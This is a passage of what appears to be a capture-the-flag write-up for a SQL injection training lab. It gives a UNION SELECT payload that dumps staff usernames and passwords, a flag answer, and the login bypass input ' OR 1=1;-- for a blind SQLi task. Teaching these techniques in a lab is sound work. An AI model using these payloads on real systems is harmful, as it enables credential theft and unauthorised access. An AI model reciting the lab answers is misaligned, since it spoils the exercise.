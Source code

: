     0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM staff_users
![password](images/15-password.png)<br/>
#### A: `THM{SQL_INJECTION_3840}` :heavy_check_mark:<br/>

## Task 6: Blind SQLi - Authentication Bypass
### Q: What is the flag after completing level two? (and moving to level 3)
    username anything and password field ' OR 1=1;--
![sqli in password](images/16-sqli-in-pwd.png)<br/>